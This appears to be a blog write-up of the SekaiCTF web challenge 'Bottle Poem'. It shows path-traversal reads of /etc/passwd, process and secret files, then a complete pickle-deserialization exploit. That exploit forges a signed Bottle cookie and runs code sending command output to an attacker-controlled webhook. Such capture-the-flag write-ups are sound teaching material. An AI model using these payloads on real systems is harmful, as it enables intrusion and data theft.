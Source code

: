 ```yaml
---
layout: post
current: post
cover:  False
navigation: True
title: "Bottle Poem"
date: 2022-11-03 10:00:00
tags: [SekaiCTF]
class: post-template
subclass: 'post'
author: Ace314159
---
```


For this web challenge, we had to utilize two different exploits to get the flag -- and one of them wasn't a web exploit!

## Setup

We're presented with a website where we can select different poems to view. When we click on a poem, we can see that the URL contains the name of a text file: `/show?id=spring.txt`.

## Local File Inclusion (LFI)

The first thing that comes to mind when we can access arbitrary files on a web server is Local File Inclusion (LFI). We tried it out by trying to access /etc/passwd `/show?id=../../etc/passwd`. We were successful! 

Next, we wanted to get the source code of the website for further analysis of where the flag could be. After some Googling, we found that we can read the `/proc/self/cmdline` file to get the command line arguments of the current process. This yielded `"python3", "-u", "/app/app.py"`. Thus, we can access `app.py` using `/show?id=../../app/app.py`, giving us this file:

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

## Getting Trolled

The code shows that there's an admin template that only an admin user can access. However, since we have LFI, we can just access the template directly: `/show?id=../../app/views/admin.html`. This gives us the template

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Sekai's boooootttttttlllllllleeeee</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="text-white bg-zinc-800 container px-4 mx-auto text-center h-screen box-border flex justify-center item-center flex-col">
    Hello, you are {{name}}, but it’s useless.
</body>
</html>
```

No flag :(

## Pickle Fun

We had to keep looking. The next thing that came to mind was seeing if we could control the `session` variable. This wouldn't help us with the admin page, since we already know the admin template is useless, but maybe we can do something else with it. Looking at the source of `get_cookie`, we see that it calls `cookie_decode`, which looks like this:

```python
def cookie_decode(data, key):
    ''' Verify and decode an encoded string. Return an object or None.'''
    data = tob(data)
    if cookie_is_encoded(data):
        sig, msg = data.split(tob('?'), 1)
        if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
            return pickle.loads(base64.b64decode(msg))
    return None
```

`pickle`! The code uses pickle to load arbitrary data from the cookie. This gives us Remote Code Execution (RCE), which we can use to search for the flag. The way we can get RCE using pickle is by pickling a class with the `__reduce__` method. It returns a tuple, where the first value is a function, and the second value is the arguments passed into the function. When `pickle.loads` is called, it will call the function with the arguments. We can use this in conjunction with the python `exec` function to get RCE.

Our final exploit just runs the flag executable (which we found using the same exploit strategy), and then sends the output as a payload to a webhook URL we control. (You can create webhook URLs with a site like [RequestBin](https://requestbin.com/).) Here's the class that we used in our final exploit:

```python
code = """
import urllib.request
import os
import subprocess

path = os.path.join(os.getcwd(), "../flag")
try:
    data = str(subprocess.run([path], capture_output=True)).encode("utf-8")
except Exception as e:
    data = str(e).encode("utf-8")

req = urllib.request.Request(WEBHOOK_URL, data=data)

urllib.request.urlopen(req)
"""

class RCE:
    def __reduce__(self):
        return exec, (code,)
```


However, before we get RCE on the server, we need to find the secret the session cookie is encrypted with. Without that, we can't change the cookie. The secret is imported at the top of the web server file, so could we just load the imported file using LFI? Let's take a look at `/show?id=../../app/config/secret.py`:

```python
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Perfect! Now we just have to construct our payload! Looking near `cookie_decode`, we see `cookie_encode`, which looks like this:

```python
def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, -1))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg
```

After stealing that code, we can complete our exploit.

```python
data = RCE()

msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())
print(tob('!') + sig + tob('?') + msg)
```

And we have the flag! Here's the full code:

```python
code = """
import urllib.request
import os
import subprocess

path = os.path.join(os.getcwd(), "../flag")
try:
    data = str(subprocess.run([path], capture_output=True)).encode("utf-8")
except Exception as e:
    data = str(e).encode("utf-8")

req = urllib.request.Request(WEBHOOK_URL, data=data)

urllib.request.urlopen(req)
"""


class RCE:
    def __reduce__(self):
        return exec, (code,)


data = RCE()

msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())
print(tob('!') + sig + tob('?') + msg)
```

Flag: `SEKAI{W3lcome_To_Our_Bottle}`